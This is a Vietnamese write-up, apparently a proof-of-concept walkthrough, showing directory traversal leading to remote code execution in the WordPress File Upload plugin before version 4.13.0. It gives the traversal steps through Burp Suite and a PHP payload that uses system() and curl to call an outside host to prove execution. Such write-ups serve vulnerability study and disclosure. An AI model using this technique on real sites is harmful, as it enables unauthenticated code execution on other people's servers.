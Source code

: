 # Directory traversal to RCE on WordPress File Upload plugin

Đây là một lỗ hổng trên WordPress File Upload plugin có version < 4.13.0. Lỗ hổng này cho phép attacker upload một file có chứa code độc hại vào thư mục wp-content/plugins/wp-file-upload/lib. Khi sử dụng plugin này thì tất cả các file trong thư mục này sẽ được load. Như vậy khi attacker up một file độc hại vào thư mục này thì file đó cũng sẽ được chạy(ko phân biệt định dạng).

Add plugin cho một bài viết

![](../images/Upload_file/01.png)

Truy cập vào website như một người dùng bình thường (ko cần login) ta thấy có chỗ để upload file

![](../images/Upload_file/02.png)

Thông thường khi upload ở đây thì file sẽ được lưu vào thư mục `wp-content/uploads`

![](../images/Upload_file/03.png)

Attacker có thể thay đổi đường dẫn để file được upload vào thư mục `wp-content/plugins/wp-file-upload/lib`

## Demo

Tạo một file với một đoạn code như sau để up lên. Có thể truyền vào code bất kỳ. Ở đây tôi dùng lệnh curl để tý tôi có thể xem log http access trên server 10.10.35.123 để dễ dàng nhận ra code đã được thực thi

```
<?php system("curl http://10.10.35.123/index.html"); ?>
```

Encode đường dẫn đến thư mục /lib

![](../images/Upload_file/04.png)

Chọn file chứa đoạn code bên trên để upload

![](../images/Upload_file/05.png)

Ở đây cần phải sửa một số thứ nên trên trình duyệt của tôi tôi sử dụng Burp Suite để chặn lại vùa sửa một số thứ

Thêm đường dẫn đã encode vào filename

![](../images/Upload_file/06.png)

Tiếp tục thêm vào uploadedfile_1_name

![](../images/Upload_file/07.png)

Tiếp tục thêm vào uploadedfile_1_name

![](../images/Upload_file/08.png)

Ta thấy đã upload thành công

![](../images/Upload_file/09.png)

![](../images/Upload_file/10.png)

Bây giờ truy cập vào server 10.10.35.123 để thực hiện tailf access_log và thực hiện load lại trang ta thấy log như sau:

![](../images/Upload_file/11.png)

Chứng tỏ đoạn code của chúng ta đã được thực thi.
